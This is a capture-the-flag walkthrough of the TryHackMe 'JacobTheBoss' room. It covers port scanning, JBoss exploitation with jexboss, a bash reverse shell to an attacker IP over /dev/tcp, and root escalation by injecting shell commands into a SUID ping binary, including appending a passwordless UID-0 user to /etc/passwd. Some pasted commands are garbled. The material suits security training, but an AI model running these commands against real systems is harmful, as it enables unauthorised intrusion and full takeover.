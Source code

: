 # 58 - JacobTheBoss (jboss exploitation)

Room Link --> [https://tryhackme.com/room/jacobtheboss](https://tryhackme.com/room/jacobtheboss)

\*First of all, add the `jacobtheboss.box` address to your hosts file.

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.203.6 -p- -T4 -T5 -sV

22/tcp    open  ssh          syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http         syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
111/tcp   open  rpcbind      syn-ack 2-4 (RPC #100000)
1090/tcp  open  java-rmi     syn-ack Java RMI
1098/tcp  open  java-rmi     syn-ack Java RMI
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack Java Object Serialization
4444/tcp  open  java-rmi     syn-ack Java RMI
4445/tcp  open  java-object  syn-ack Java Object Serialization
4446/tcp  open  java-object  syn-ack Java Object Serialization
4457/tcp  open  tandem-print syn-ack Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack
8009/tcp  open  ajp13        syn-ack Apache Jserv (Protocol v1.3)
8080/tcp  open  http         syn-ack Apache Tomcat/Coyote JSP engine 1.1
8083/tcp  open  http         syn-ack JBoss service httpd
39195/tcp open  unknown      syn-ack
42774/tcp open  java-rmi     syn-ack Java RMI
43179/tcp open  unknown      syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://jacobtheboss.box -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403,404 -x php,txt,db,sql,ini

/index.php
/themes
/public
/admin
/LICENSE
/CHANGELOG
/CREDITS
/locales
```
{% endcode %}

Visiting port 8080

[http://jacobtheboss.box:8080/](http://jacobtheboss.box:8080/jmx-console/HtmlAdaptor?)

### Initial Access

I searched for the jboss exploit, and hacktricks rediected me to this [link](https://github.com/joaomatosf/jexboss).

Clone the repo and run the script.

```bash
python3 jexboss.py -u http:///jacobtheboss.box:8080/

# and got a limited shell.
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Getting a better shell

Setup NC listener and run this in the restricted shell.

```bash
Shell> /bin/bash -i > /dev/tcp/10.18.88.214/4242 0<&1 2>&1
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Shell is a bit stable now.

### Priv Esc

{% code overflow="wrap" lineNumbers="true" %}
```bash
[jacob@jacobtheboss ~]$ finfind / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
[jacob@jacobtheboss ~]$
```
{% endcode %}

That `/usr/bin/pingsys` is an interesting binary. @ ways to exploit it:

#### Option 1

We enter the below cmd and got root.

```bash
[jacob@jacobtheboss ~]$ /usr/bin/pingsys '10./usr/bin/pingsys '10.10.203.6; /bin/bash'
/usr/bin/pingsys '10.10.203.6; /bin/bash'
PING 10.10.203.6 (10.10.203.6) 56(84) bytes of data.
64 bytes from 10.10.203.6: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 10.10.203.6: icmp_seq=2 ttl=64 time=0.028 ms
64 bytes from 10.10.203.6: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 10.10.203.6: icmp_seq=4 ttl=64 time=0.029 ms

--- 10.10.203.6 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.014/0.026/0.034/0.008 ms
[root@jacobtheboss ~]# 


```

#### Option 2

In this command below, “0” is the UID of the root user, so adding a user with the UID of “0” will give that user root privileges. This user will have the username of “dking” and an empty password:

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/bin/pingsys ‘10.10.244.174; echo dking::0:0:pwned by d31ng:/root/root:/bin/bash >> /etc/passwd
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*CRQ5jvlqgT95SoEsiJg6JQ.png" alt="" height="210" width="700"><figcaption></figcaption></figure>

Done!
